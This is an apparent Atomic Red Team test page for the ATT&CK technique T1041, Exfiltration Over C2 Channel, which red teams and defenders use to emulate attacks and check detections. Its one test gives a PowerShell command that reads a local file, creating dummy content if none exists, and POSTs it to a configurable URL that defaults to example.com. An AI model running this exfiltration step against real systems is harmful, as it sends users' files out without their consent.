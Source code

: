 # T1041 - Exfiltration Over C2 Channel

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1041)

<blockquote>Adversaries may steal data by exfiltrating it over an existing command and control channel. Stolen data is encoded into the normal communications channel using the same protocol as command and control communications.</blockquote>

## Atomic Tests

- [Atomic Test #1 - C2 Data Exfiltration](#atomic-test-1---c2-data-exfiltration)

<br/>

## Atomic Test #1 - C2 Data Exfiltration

Exfiltrates a file present on the victim machine to the C2 server.

**Supported Platforms:** Windows

**auto_generated_guid:** d1253f6e-c29b-49dc-b466-2147a6191932

#### Inputs:

| Name            | Description                                           | Type   | Default Value                 |
| --------------- | ----------------------------------------------------- | ------ | ----------------------------- |
| destination_url | Destination URL to post encoded data.                 | string | example.com                   |
| filepath        | The file which is being exfiltrated to the C2 Server. | path   | $env:TEMP&#92;LineNumbers.txt |

#### Attack Commands: Run with `powershell`!

```powershell
if(-not (Test-Path #{filepath})){
  1..100 | ForEach-Object { Add-Content -Path #{filepath} -Value "This is line $_." }
}
[System.Net.ServicePointManager]::Expect100Continue = $false
$filecontent = Get-Content -Path #{filepath}
Invoke-WebRequest -Uri #{destination_url} -Method POST -Body $filecontent -DisableKeepAlive
```

<br/>
